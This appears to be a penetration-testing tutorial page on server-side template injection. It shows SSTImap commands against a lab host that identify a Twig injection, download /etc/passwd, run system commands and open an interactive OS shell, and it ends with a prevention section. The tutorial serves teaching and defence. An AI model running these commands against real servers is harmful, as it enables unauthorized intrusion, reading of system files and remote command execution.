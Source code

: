 This section will showcase tools that can help us identify and exploit SSTI vulnerabilities. Furthermore, we will briefly explore how to prevent these vulnerabilities.

---

## Tools of the Trade

The most popular tool for identifying and exploiting SSTI vulnerabilities is [tplmap](https://github.com/epinna/tplmap). However, tplmap is not maintained anymore and runs on the deprecated Python2 version. Therefore, we will use the more modern [SSTImap](https://github.com/vladko312/SSTImap) to aid the SSTI exploitation process. We can run it after cloning the repository and installing the required dependencies:

```shell-session
smoothment@htb[/htb]$ git clone https://github.com/vladko312/SSTImap

smoothment@htb[/htb]$ cd SSTImap

smoothment@htb[/htb]$ pip3 install -r requirements.txt

smoothment@htb[/htb]$ python3 sstimap.py 

 â•”â•â•â•â•â•â•â•¦â•â•â•â•â•â•â•¦â•â•â•â•â•â•â•â•— â–€â–ˆâ–€
 â•‘ â•”â•â•â•â•â•£ â•”â•â•â•â•â•©â•â•â•— â•”â•â•â•â•â•—â–€â•”â•
 â•‘ â•šâ•â•â•â•â•£ â•šâ•â•â•â•â•— â•‘ â•‘ â•‘{â•‘ _ __ ___ __ _ _ __
 â•šâ•â•â•â•â•— â• â•â•â•â•â•— â•‘ â•‘ â•‘ â•‘*â•‘ | '_ ` _ \ / _` | '_ \
 â•”â•â•â•â•â• â• â•â•â•â•â• â•‘ â•‘ â•‘ â•‘}â•‘ | | | | | | (_| | |_) |
 â•šâ•â•â•â•â•â•â•©â•â•â•â•â•â•â• â•šâ•â• â•šâ•¦â• |_| |_| |_|\__,_| .__/
 â”‚ | |
 |_|
[*] Version: 1.2.0
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state, and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; engines: 17; legacy_engines: 2
[*] Loaded request body types: 4
[-] SSTImap requires target URL (-u, --url), URLs/forms file (--load-urls / --load-forms) or interactive mode (-i, --interactive)
```

To automatically identify any SSTI vulnerabilities as well as the template engine used by the web application, we need to provide SSTImap with the target URL:

```shell-session
smoothment@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test

<SNIP>

[+] SSTImap identified the following injection point:

 Query parameter: name
 Engine: Twig
 Injection: *
 Context: text
 OS: Linux
 Technique: render
 Capabilities:
 Shell command execution: ok
 Bind and reverse shell: ok
 File write: ok
 File read: ok
 Code evaluation: ok, php code
```

As we can see, SSTImap confirms the SSTI vulnerability and successfully identifies the`Twig` template engine. It also provides capabilities we can use during exploitation. For instance, we can download a remote file to our local machine using the`-D` flag:

```shell-session
smoothment@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd'

<SNIP>

[+] File downloaded correctly
```

Additionally, we can execute a system command using the`-S` flag:

```shell-session
smoothment@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S id

<SNIP>

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Alternatively, we can use`--os-shell` to obtain an interactive shell:


```shell-session
smoothment@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell

<SNIP>

[+] Run commands on the operating system.
Linux $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Linux $ whoami
www-data
```

---

## Prevention

To prevent SSTI vulnerabilities, we must ensure that user input is never fed into the call to the template engine's rendering function in the template parameter. This can be achieved by carefully going through the different code paths and ensuring that user input is never added to a template before a call to the rendering function.

Suppose a web application intends to have users modify existing templates or upload new ones for business reasons. In that case, it is crucial to implement proper hardening measures to prevent the takeover of the web server. This process can include hardening the template engine by removing potentially dangerous functions that can be used to achieve remote code execution from the execution environment. Removing dangerous functions prevents attackers from using these functions in their payloads. However, this technique is prone to bypasses. A better approach would be to separate the execution environment in which the template engine runs entirely from the web server, for instance, by setting up a separate execution environment such as a Docker container.
